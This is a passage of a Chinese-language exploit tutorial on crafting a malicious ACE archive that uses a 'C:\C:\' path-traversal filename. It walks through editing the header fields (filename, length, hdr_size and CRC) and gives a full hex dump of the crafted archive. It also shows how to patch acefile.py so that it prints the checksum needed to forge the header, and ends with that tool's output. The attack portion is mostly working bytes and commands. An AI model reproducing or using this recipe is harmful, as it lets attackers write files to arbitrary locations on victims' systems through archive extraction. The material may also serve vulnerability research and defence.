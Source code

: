 ​      我们通过对比header 头信息 和 二进制比对 ，可以通过偏移找到。

```
  header头中的值

      hdr_crc  0x1ce9       校验

      hdr_size   62  (3e)    长度

      filename 的长度（在filename字段前）  1F 00  （ 31 ）    

      filename 内容     Users\\\xe7\xfd\\Desktop\\TESTPAYLOD.txt

     我们通过修改filename 内容 同时 修改 校验  长度 等 数值 来 构造 恶意压缩包
```

4. **构造恶意ACE数据包**

​          我们先按照最基础的方式构造 C:\C:\ 式攻击方法，

​          我们构造数据为如下格式

```cmd
00000000h: B5 45 31 00 00 00 90 2A 2A 41 43 45 2A 2A 14 14 ; 礒1...?*ACE**..
00000010h: 02 00 6F 54 5B 4E E8 03 5D E6 00 00 00 00 16 2A ; ..oT[N?]?....*
00000020h: 55 4E 52 45 47 49 53 54 45 52 45 44 20 56 45 52 ; UNREGISTERED VER
00000030h: 53 49 4F 4E 2A 89 45 33 00 01 01 80 0D 00 00 00 ; SION*塃3...€....
00000040h: 0D 00 00 00 8E 53 5B 4E 20 00 00 00 5C 4D 43 7C ; ....嶴[N ...\MC|
00000050h: 00 03 0A 00 54 45 14 00 43 3A 5C 43 3A 5C 54 45 ; ....TE..C:\C:\TE
00000060h: 53 54 50 41 59 4C 4F 44 2E 74 78 74 41 41 41 41 ; STPAYLOD.txtAAAA
00000070h: 41 41 41 41 41 41 20 0D 0A                      ; AAAAAA ..
```

> 分别修改 
>
> filename 为 C:\C:\TESTPAYLOAD.txt
>
> 字符串长度  改为 14h
>
> hdr_size    改为 33h
>
> hdr_crc     45 89h
>
> hdr_crc 的获取参找了 直接用脚本更改的方法
>
> if len(buf) < hsize:
> ​            raise CorruptedArchiveError("truncated header")
> ​        if ace_crc16(buf) != hcrc:
> ​            print(ace_crc16(buf),buf)   《--------直接打印出校验值 
> ​            raise CorruptedArchiveError("header CRC failed")
>
> 对比更改CRC 前后

```
>python acefile.py --headers TESTPAYLOD.ace
17801 b'\x01\x01\x80\r\x00\x00\x00\r\x00\x00\x00\x8eS[N \x00\x00\x00\\
3\n\x00TE\x14\x00C:\\C:\\TESTPAYLOD.txt'
TESTPAYLOD.ace: CorruptedArchiveError: header CRC failed

>python acefile.py --headers TESTPAYLOD.ace
volume
    filename    TESTPAYLOD.ace
    filesize    121
    headers     MAIN:1 FILE:1 others:0
header
    hdr_crc     0x45b5
    hdr_size    49
    hdr_type    0x00        MAIN
```